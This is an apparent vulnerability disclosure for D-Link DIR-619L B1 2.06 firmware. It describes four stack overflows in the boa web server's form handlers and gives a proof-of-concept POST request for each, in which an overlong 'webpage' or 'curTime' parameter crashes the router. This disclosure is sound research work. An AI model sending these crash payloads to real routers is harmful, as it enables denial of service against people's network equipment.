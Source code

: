 # DIR-619L Buffer Overflow

D-Link DIR-619L B1 2.06 was found to contain stack overflows in multiple functions in /bin/boa, This vulnerability allows attackers to trigger a denial of service (DoS) through web page parameters. The boa binary is responsible for serving http connection received by the device. 

Product: D-Link DIR-619L

Affected firmware Version: B1 2.06

firmware link: https://support.dlink.com/resource/products/DIR-619L/REVB/DIR-619L_REVB_FIRMWARE_PATCH_2.06.B01_WW.ZIP

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/06da0c59-fe71-4b6e-8f1d-72d321d00225)

## 1. formWPS Function

### **Vulnerability description**

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 23-24 of Figure 1), and then this global variable is finally passed to the sprintf function as an argument (as shown in Figure 2-4). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/48670541-93c4-4996-8adb-3c156df6747b)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/b608c2cf-026d-4e19-a64d-a78e851f7a77)

Figure 2

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/2c8c10ba-a04c-48bf-91fe-c2173d4ec860)

Figure 3

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/85f47264-a9ea-4032-b212-f978bd0fe718)

Figure 4

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWPS HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715050258057
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/d05e8280-4f12-4351-aac3-99d648ec1e9a)




## 2. formWlanSetup_Wizard Function

### **Vulnerability description**

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 32-34 of Figure 1), and then this global variable is assigned to the v16 by the strcpy function (as shown at line 46 of Figure 1). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/6cac466b-5990-4a3a-80d6-fe98379131aa)

Figure 1

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWlanSetup_Wizard HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051006529
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/eec8d872-3164-4fc4-9c64-73ce987b550e)



## 3. formWlanGuestSetup Function

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 89-92 of Figure 1), and then this global variable is passed into websRedirect function (as shown at line 490-492 of Figure 2), and finally it is passed to the sprintf function as an argument (same as the first vulnerability). 

However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.


![image](https://github.com/YuboZhaoo/IoT/assets/154046274/38840092-7ecc-46c2-812f-aa70205cc45b)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/4080e473-81f5-47da-8681-187487260366)

Figure 2

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWlanGuestSetup HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051493922
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/756e0039-450e-42eb-8c1a-69239a194088)



## 4. formTcpipSetup

The websGetVar function obtains the "curTime" parameter from the front-end (as shown at line 61 of Figure 1), and stores the data on the stack through the sprintf function (as shown at line 86-88 of Figure 1). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/969c4f35-5f00-445b-b69b-7361ba6de285)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/7db6f033-31d8-46b9-9d79-76185b4102eb)

Figure 2

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "curTime" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formTcpipSetup HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051676439
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

curTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/343f2513-3038-4a14-8060-4994578b7f26)



